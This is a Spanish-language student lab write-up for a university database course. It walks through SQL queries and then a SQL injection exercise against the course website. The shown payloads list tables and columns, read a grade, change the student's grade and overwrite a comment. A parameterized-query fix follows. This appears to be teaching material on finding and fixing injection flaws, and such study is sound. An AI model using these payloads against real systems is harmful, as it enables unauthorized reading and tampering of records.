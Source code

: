 Hecho por Daniel Hermosilla y Sebastián Jana
## Pregunta 1 

#### Parte A

```SQL 
SELECT *  
FROM uchile.transparencia  
WHERE apellido_p = 'Gutiérrez'  
ORDER BY total;
```

#### Parte B

```SQL 
SELECT nota  
FROM nota.cc3201  
WHERE nombre = 'Jana Cergneux, Sebastián';
```

#### Parte C
```SQL 
UPDATE nota.cc3201  
SET nota = 6.9999  
WHERE nombre = 'Jana Cergneux, Sebastián';
```
El resultado de la instrucción es `"ERROR:  permission denied for table cc3201"`

## Pregunta 2  

#### Parte A 

Al ejecutar la primera consulta se obtiene una tabla del tipo: 

|      table_name       |  table_schema  |
|:---------------------:|:--------------:|
|   view1_grupo23       |      eval      |
|   singrupo10          |      eval      |
|   poof_estado         |    eleccion    |
|         ...           |      ...       |

Donde se busca la fila que contenga el esquema nota, la fila correspondiente es:

|  table_name  |  table_schema  |
|:-----------:|:--------------:|
|    cc3201   |      nota      |

Al ejecutar la 2da consulta para *"table_name = cc3201"* y "*table_schema = nota"* se obtiene:

| column_name  |     data_type      |
|:------------:|:------------------:|
|      id      |     smallint       |
|   nombre     | character varying  |
|     nota     | double precision   |
|  comentario  | character varying  |


#### Parte B 

En el sitio http://cc3201.dcc.uchile.cl, al inspeccionar el código fuente, al expandir el elemento `head` se encuentra   el texto `<!-- https://github.com/matiastoro/cc3201 -->` . 

Al ingresar a la página de github, en el código de "App" se evidencia una posible oportunidad de inyección:  

```python
cur.execute("SELECT nombres, apellido_p, apellido_m, mes, anho, total FROM uchile.transparencia WHERE apellido_p='"+input+"' ORDER BY total DESC LIMIT 250")
``` 
Luego, se puede aprovechar esto para insertar ciertos inputs en la página https://cc3201.dcc.uchile.cl/

- **Inciso A:** Para obtener las tablas junto son sus esquemas en la base de datos se inserta `"'; SELECT table_name, table_schema FROM information_schema.tables; --"` en el input. 

![[Pasted image 20231019154507.png|center]]


- **Inciso B:** Para obtener las columnas y tipos de la tabla nota.cc3201 se inserta `"'; SELECT column_name, data_type FROM information_schema.columns WHERE table_name='cc3201' AND table_schema='nota'; --"` en el input. 

![[Pasted image 20231019154534.png|center]]

- **Inciso C:** Para obtener la nota se inserta `"'; SELECT nota FROM nota.cc3201 WHERE nombre = 'Jana Cergneux, Sebastián'; --"`

![[Pasted image 20231019154737.png|center]]


- **Inciso D**: Para cambiar la nota se inserta `"'; UPDATE nota.cc3201 SET nota = 7 WHERE nombre = 'Jana Cergneux, Sebastián'; --"` 
![[Pasted image 20231019154840.png|center]]

- **Inciso E:** Para cambiar el comentario se inserta `"'; UPDATE nota.cc3201 SET comentario = '𓀈𓀘𓁺 𓂀𓂯 𓃔𓅊' WHERE nombre = 'Jana Cergneux, Sebastián'; --"`

![[Pasted image 20231019155514.png|center]]

- **Inciso F**: Para evitar la inyección maliciosa se debe cambiar el código de la aplicación, en específico; 

```python
cur.execute("SELECT nombres, apellido_p, apellido_m, mes, anho, total FROM uchile.transparencia WHERE apellido_p='"+input+"' ORDER BY total DESC LIMIT 250")

"""
Cambiar por 
""" 

cur.execute("SELECT nombres, apellido_p, apellido_m, mes, anho, total FROM uchile.transparencia WHERE apellido_p=%s ORDER BY total DESC LIMIT 250", [input])
```

